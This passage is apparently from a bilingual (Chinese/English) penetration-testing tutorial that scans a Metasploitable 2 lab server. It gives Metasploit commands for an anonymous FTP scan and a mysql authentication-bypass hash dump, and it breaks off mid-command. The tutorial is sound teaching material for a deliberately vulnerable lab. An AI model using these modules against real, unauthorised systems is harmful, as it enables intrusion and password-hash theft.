     前面的屏幕截图显示服务器正在运行`ftp`、`openssh`、`telnet`、`smtp`、`domain`等等。已检索到更多信息。让我们看看下面的屏幕截图：

    ![How to do it...](img/image_03_021.jpg)

    我们还可以看到一个`mysql`服务、`postgresql`服务、`vnc`服务、`x11`和`IRC`服务在系统上运行。现在，让我们从 Metasploitable 2 服务器的漏洞评估开始。

7.  We will use Metasploit throughout this process. Let's analyze the `ftp` service to see if it is vulnerable to any known component. If the `Rhosts` option does not show our target IP address, we can fill it manually. Enter the following command in the Metasploit console:

    ```
          use auxiliary/scanner/ftp/anonymous
          show options
          set Rhosts <IP Address>
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_03_022.jpg)

8.  We will try to use the authentication bypass for `mysql` and see if we are successful. Run the following command on the `msf` terminal:

    ```
          use auxiliary/scanner/mysql/mysql_authbypass_hashdump
          exploit
